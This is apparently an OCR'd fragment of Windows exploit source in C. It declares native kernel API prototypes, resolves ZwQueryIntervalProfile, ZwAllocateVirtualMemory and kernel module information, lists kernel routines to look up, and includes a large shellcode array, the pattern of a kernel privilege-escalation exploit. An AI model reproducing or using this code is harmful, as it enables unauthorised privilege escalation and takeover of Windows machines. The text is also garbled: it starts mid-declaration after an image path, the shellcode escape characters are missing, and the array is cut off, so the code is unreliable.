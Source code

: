 ProfileIcacheIssues,
ProfileDcacheAccesses,
ProfileMemoryBarrierCycles,
ProfileLoadLinkedIssues,
ProfileMaximum
} KPROFILE_SOURCE, *PKPROFILE_SOURCE;

typedef struct _UNICODE_STRING {
USHORT        Length;
USHORT        MaximumLength;
PWSTR        Buffer;
} UNICODE_STRING, *PUNICODE_STRING;

typedef struct _SECTION_BASIC_INFORMATION {
PVOID BaseAddress;
ULONG Attributes;
LARGE_INTEGER Size;
}SECTION_BASIC_INFORMATION, *PSECTION_BASIC_INFORMATION;

typedef struct _SYSTEM_MODULE_INFORMATION {
ULONG Reserved[2];
PVOID Base;
ULONG Size;
ULONG Flags;
USHORT Index;
USHORT Unknown;
USHORT LoadCount;
USHORT ModuleNameOffset;
CHAR ImageName[256];
} SYSTEM_MODULE_INFORMATION, *PSYSTEM_MODULE_INFORMATION;

typedef NTSTATUS (NTAPI *ZWQUERYINTERNALPROFILE)(ULONG, PULONG);
typedef NTSTATUS (NTAPI *ZWQUERYINFORMATIONPROCESS)(HANDLE, ULONG, PVOID, ULONG, PULONG);
typedef NTSTATUS (NTAPI *ZWQUERYSYSTEMINFORMATION)(ULONG, PVOID, ULONG, PULONG);
typedef NTSTATUS (NTAPI *ZWALLOCATEVIRTUALMEMORY)(HANDLE, PVOID *, ULONG, PULONG, ULONG, ULONG);
typedef PIMAGE_NT_HEADERS (NTAPI *RTLIMAGENTHEADER)(PVOID);
typedef PVOID (NTAPI *RTLIMAGEDIRECTORYENTRYTODATA)(PVOID, ULONG, USHORT, PULONG);

ZWQUERYINTERNALPROFILE        ZwQueryIntervalProfile;
ZWQUERYINFORMATIONPROCESS        ZwQueryInformationProcess;
ZWQUERYSYSTEMINFORMATION ZwQuerySystemInformation;
ZWALLOCATEVIRTUALMEMORY ZwAllocateVirtualMemory;
RTLIMAGENTHEADER RtlImageNtHeader;
RTLIMAGEDIRECTORYENTRYTODATA RtlImageDirectoryEntryToData;

unsigned char kfunctions[64][64] =
{
//ntoskrnl.exe
{"ZwTerminateProcess"},
{"PsLookupProcessByProcessId"},
{""},
};

unsigned char shellcode[] =
"x90x60x9cxe9xc4x00x00x00x5fx4fx47x66x81x3fx90xcc"
"x75xf8x66x81x7fx02xccx90x75xf0x83xc7x04x64x8bx35"
"x38x00x00x00xadxadx48x81x38x4dx5ax90x00x75xf7x95"
"x8bxf7x6ax02x59xe8x4dx00x00x00xe2xf9x8bx4ex0cxe8"
"x29x00x00x00x50x8bx4ex08xe8x20x00x00x00x5ax8bx7e"
"x1cx8bx0cx3ax89x0cx38x56x8bx7ex14x8bx4ex18x8bx76"
"x10xf3xa4x5ex33xc0x50x50xffx16x9dx61xc3x83xecx04"
"x8dx2cx24x55x51xffx56x04x85xc0x0fx85x80x8fx00x00"
"x8bx45x00x83xc4x04xc3x51x56x8bx75x3cx8bx74x2ex78"
"x03xf5x56x8bx76x20x03xf5x33xc9x49x41xadx03xc5x33"
"xdbx0fxbex10x85xd2x74x08xc1xcbx07x03xdax40xebxf1"
"x3bx1fx75xe7x5ex8bx5ex24x03xddx66x8bx0cx4bx8bx5e"
"x1cx03xddx8bx04x8bx03xc5xabx5ex59xc3xe8x37xffxff"